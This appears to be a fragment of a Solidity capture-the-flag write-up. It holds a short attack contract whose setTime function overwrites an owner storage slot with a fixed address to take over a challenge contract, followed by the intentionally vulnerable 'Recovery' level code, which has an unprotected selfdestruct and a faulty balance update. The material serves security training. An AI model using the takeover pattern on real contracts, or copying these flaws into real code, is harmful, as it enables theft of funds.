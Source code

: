 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract attact{
    address public slot0;
    address public slot1;
    address public slot2_owner;

    function setTime(uint fuckwaste) public{
        slot2_owner = address(0x508281E39fF6c0aB776d773e6cC879AdbCEF2aEC);
    }
}
```

### Recovery

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);

  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

